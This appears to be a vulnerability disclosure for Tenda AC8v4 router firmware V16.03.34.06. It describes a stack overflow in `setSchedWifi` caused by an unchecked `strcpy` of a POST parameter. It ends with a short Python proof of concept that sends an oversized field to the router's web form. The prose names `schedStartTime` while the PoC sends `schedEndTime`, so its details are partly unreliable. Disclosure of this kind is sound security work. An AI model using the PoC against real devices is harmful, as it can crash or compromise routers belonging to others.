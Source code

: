 # Tenda AC8v4 V16.03.34.06

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr+2` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided  `schedStartTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735650491449](/img/1735650491449.png)

![1735650523496](/img/1735650523496.png)

![1735650546634](/img/1735650546634.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedEndTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](/img/1735650674572.png)

